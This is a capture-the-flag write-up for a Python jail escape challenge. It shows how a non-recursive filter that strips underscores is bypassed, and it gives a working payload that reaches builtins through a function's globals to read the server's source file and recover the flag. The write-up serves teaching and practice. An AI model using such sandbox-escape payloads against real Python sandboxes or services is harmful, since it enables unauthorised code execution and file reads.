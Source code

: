 # IncognitoCTF 3.0 - PyJail 1

Description of the challenge: ```Noob Jail, nc 142.93.209.130 13010```

This was the first time I tried to solve a Python Jail escape, so the first thing I did was to search a "Python Jail escape cheatsheet", and I found [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes](this) (I used it throught all the PyJail challenges).

I tried to digit something in the interactive python shell and I started to play with `__import__`, `__globals__`, `__builtins__`

This is what I discovered:
```
This file contains the flag let's see if you can find it(The name is jail1)
>>> __import__
  File "<console>", line 1
    import
          ^
SyntaxError: invalid syntax
import
>>> 
```

I found that there was some sort of substitution of `_`, `%`, `&` as a mitigation. 
The problem here is that the substitution is not recursive, so if I digit `_%_` I'll get `__`:
```
>>> _%_import_%_
Traceback (most recent call last):
  File "<console>", line 1, in <module>
NameError: name '__import__' is not defined
__import__
>>> 
```

This is the final gadget chain I used (starting from flag function):
`
flag._%_globals_%_['_%_builtins_%_'].open(flag._%_globals_%_['_%_file_%_']).read()
`

Result: `'#!/usr/bin/env python3\nimport os\nimport sys\nimport code\nimport re\n\n#ictf{Th1s_Wa5_3a5y_4123821379}\ndef user_input(arg):\n    s = input(">>> ")\n    s = s.replace(\'__\', \'\')\n    s = s.replace(\'%\', \'\')\n    not_allowed = [\n    r\'\\"\',\n    r\'\\+\',\n    r\'-\',\n    r\'\\*\',\n    r\'/\',\n    r\'<\',\n    r\'>\',\n    r\'\\^\',\n    r\'&\',\n    r\'\\|\',\n    ]\n    print(s)\n    if any([re.search(r, s) for r in not_allowed]):\n    \tprint("Can\'t do dis......")\n    \texit()\n    if(s == \'exit\'):\n    \texit()\n    return s\n    \ndef flag(arg):\n\tprint(\'You did it\')\ndef main():\n    scope = {"__builtins__": {"flag": flag}}\n    message = "This file contains the flag let\'s see if you can find it(The name is jail1)"\n\n    while True:\n    \tcode.interact(message, user_input, scope)\nmain()'`

And the flag is: `ictf{Th1s_Wa5_3a5y_4123821379}`
